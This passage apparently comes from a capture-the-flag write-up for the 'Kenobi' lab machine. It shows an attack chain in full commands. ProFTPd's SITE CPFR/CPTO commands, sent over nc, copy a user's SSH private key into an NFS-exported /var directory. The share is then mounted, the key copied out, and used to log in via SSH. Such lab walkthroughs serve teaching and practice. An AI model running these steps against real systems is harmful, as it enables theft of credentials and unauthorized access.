 We can see that the user-generated id_rsa file exists in Kenobi's home directory. Let's put the pieces together. We have vulnerable ProFTPd service, /var folder that we can mount and id_rsa file we can reach. If we copy rsa file to under /var folder, when we mount the folder we able to read rsa file and get access to the target. Firts, we need to copy rsa file to /var directory. We can do it via nc connection by connecting 21 port.

> nc 10.10.5.29 21
```bash
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```
![nc connection](/assets/img/posts/kenobi/nc.png){: width="500"}
_nc connection_

After copying the file, let's mount the var directory.

```bash
sudo mkdir /mnt/kenobi
sudo mount 10.10.5.29:/var /mnt/kenobi
sudo cp /mnt/kenobi/tmp/id_rsa .
```
![Mounting var dir](/assets/img/posts/kenobi/mount.png){: width="500"}
_Reading rsa file_

Now, we can read id_rsa file and get access to target system.

```bash
chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.5.29
```
